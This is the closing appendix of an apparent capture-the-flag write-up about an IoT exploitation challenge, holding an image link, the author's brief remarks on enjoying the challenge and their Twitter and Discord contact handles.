

## Appendix

I really enjoyed solving this challenge. 

I have some exp with IOT pwn, and this challenge was exactly this!

If you have any question regarding the above solutions, you can DM me via my [Twitter](https://x.com/itaybel) or my `Discord` (itaybel).
